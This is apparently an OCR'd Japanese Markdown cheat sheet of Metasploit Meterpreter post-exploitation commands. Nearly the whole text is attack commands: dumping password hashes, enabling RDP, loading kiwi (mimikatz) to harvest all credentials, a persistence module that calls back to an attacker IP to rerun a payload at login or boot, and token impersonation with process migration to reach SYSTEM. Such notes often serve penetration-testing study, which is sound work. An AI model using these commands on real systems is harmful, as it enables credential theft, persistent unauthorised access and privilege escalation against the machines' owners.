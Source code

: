 ### POST スクリプトの実行

```shell
meterpreter > run post/linux/gather/hashdump

# RDP有効化
meterpreter > run post/windows/manage/enable_rdp
```

### モジュールのロード

```shell
meterpreter > load python
meterpreter > load kiwi
meterpreter > help
```

### kiwi

mimikatz の進化

```sh
meterpreter > load kiwi
meterpreter > help

meterpreter > creds_all
```

### 永続化の例

ユーザーがログインしたタイミングやシステムが起動したタイミングで、ペイロードが実行されるように設定する

```shell
use post/windows/manage/persistence
set SESSION <session_id>
set LHOST <attacker_ip>
set LPORT <attacker_port>
set EXE_NAME <payload>
run
```

## Windows

### incognito

```shell
# incognitoモジュールをロード
meterpreter > load incognito

# トークンを列挙
meterpreter > list_tokens -g

# トークンを偽装
meterpreter > impersonate_token "BUILTIN\Administrators"

# services.exe プロセスに移行
# NT AUTHORITY\SYSTEM になっても全てにアクセスできるとは限らないため必要な場合がある。
# これは、Windows が偽装トークンではなく、プロセスのプライマリ トークンを使用して、プロセスが実行できる操作と実行できない操作を判断するため。
meterpreter > migrate <services.exe の PID>
```

